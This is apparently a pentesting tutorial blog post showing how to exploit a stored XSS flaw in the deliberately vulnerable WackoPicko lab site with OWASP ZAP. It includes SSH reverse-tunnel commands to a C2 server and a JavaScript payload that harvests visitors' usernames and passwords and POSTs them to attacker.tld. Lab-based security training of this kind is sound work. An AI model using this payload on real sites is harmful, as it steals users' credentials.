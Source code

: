+++
author = "Anthony Cozamanis"
title = "Exploiting Cross-Site Scripting to Capture Passwords With OWASP ZAP"
date = "2023-05-13"
description = "In this brief piece, you'll learn about using OWASP ZAP to obtain passwords through XSS."
tags = [
    "owsap",
    "zap",
    "pentesting",
]
categories = [
    "themes",
    "syntax",
]
series = ["OWASP ZAP"]
aliases = ["xss-with-zap-creds"]
+++

WackoPicko is a website that includes common vulnerabilities, including a stored XSS vulnerability in its blog comment feature. This vulnerability can be exploited to retrieve a victim's username and password and subsequently gain access to their account by utilising OWASP ZAP.

![e8bba8fb1f1846b61738e8c2bca29515.png](/img/e8bba8fb1f1846b61738e8c2bca29515.png)

- Access your remote C2 server via SSH and modify `/etc/ssh/sshd_config` so the following are enabled:
```
AllowTcpForwarding yes
GatewayPorts yes
```
- Restart sshd with systemd:
```
sudo systemctl restart ssh
```
- From your attacking machine, create a tunnel via SSH from the remote server so that anything that hits port 38193 will be redirected to the attacker's instance of ZAP
```
ssh -N -R 38193:localhost:38193 user@attacker.tld
```
- Going back to ZAP, open the Options menu and go to the go to "Callback Address" entering the following:

![c0189e9bd3e534db36df492376038540.png](/img/c0189e9bd3e534db36df492376038540.png)

- Go back to the Guestbook and submit the following payload in a blog comment, inserting your Test URL:

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://attacker.tld:38193/ZapTest',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
- This script will make anyone who views the comment issue a POST request to `http://attacker.tld:38193/ZapTest` containing their username and password.
- Go back to the Callbacks tab (which you may need to add)
- Take a note of the value of the victim's username and password in the POST body.

![491e3b93af3f65d31ff2d53597aba78f.png](/img/491e3b93af3f65d31ff2d53597aba78f.png)